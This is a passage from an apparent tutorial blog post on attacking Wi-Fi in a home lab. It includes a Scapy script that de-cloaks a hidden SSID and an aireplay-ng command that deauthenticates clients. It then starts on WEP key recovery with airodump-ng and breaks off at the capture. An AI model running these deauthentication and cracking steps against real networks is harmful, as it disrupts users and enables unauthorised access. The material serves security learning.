     if not lyr.info and lyr.addr2 not in hidden_APs:
      logging.info('found AP with hidden SSID: %s' % lyr.addr2)
      hidden_APs.add(lyr.addr2)
  # 2. monitor for any probe requests to a MAC in hidden_APs
  elif pkt.haslayer(Dot11ProbeResp):
    lyr = pkt.getlayer(Dot11)
    if lyr.addr2 in hidden_APs:
      logging.info('decloacked SSID %s with MAC %s' % (lyr.info, lyr.addr2))

conf.iface = 'mon0'
sniff(prn=processPacket)
{% endhighlight %}

And running this, we soon get:

    INFO:root:found AP with hidden SSID: 10:fe:ed:61:fa:e8
    INFO:root:decloacked SSID OpenWrt with MAC 10:fe:ed:61:fa:e8

Now this only really worked because (again) I cheated a little. I was running the script *before* turning on wifi on the client. Yes it's a little sneaky, because had the client already been associated with the AP we would have needed to wait for it to either disconnect/reconnect, or for another client to join the AP.

All is not lost however and there's a way to speed this up. We can use `aireplay-ng` to send deauth frames to all clients - this will force them to re-authenticate with the AP and send the SSID in clear.

    root@kali:~# aireplay-ng -0 1 -a 10:fe:ed:61:fa:e8 mon0
    00:40:12  Waiting for beacon frame (BSSID: 10:FE:ED:61:FA:E8) on channel 11
    NB: this attack is more effective when targeting
    a connected wireless client (-c <client's mac>).
    00:40:13  Sending DeAuth to broadcast -- BSSID: [10:FE:ED:61:FA:E8]

(Note that aireplay-ng doesn't set the channel - it's up to you to do it via `iwconfig wlan0 channel X` and `iwconfig mon0 channel X`).

Clearly if the AP had no client connected to it, it wouldn't be particularly effective. But then again it all depends on what you're trying to achieve - and whether you have time on your side.

### Level 0x2: WEP encryption ###

Let's up the ante a bit by enabling WEP on the router. And we'll leave the SSID hidden too.

In order to obtain the WEP key, we need to capture a lot of traffic - specifically, we're looking for IVs (Initialisation Vectors). We won't crafting our own tools for this, but use the `air`-suite instead. Let's start by creating a monitor interface: `airmon-ng start wlan0`.

We can then start listening for traffic with `airodump-ng --bssid 10:fe:ed:61:fa:e8 --channel 11 mon0`:

     CH 11 ][ Elapsed: 7 mins ][ 2014-09-26 22:53                                         
                                                                                                      
     BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                      
     10:FE:ED:61:FA:E8  -63 100     3617    33100    0  11  54e. WEP  WEP         OpenWrt             
                                                                                                      
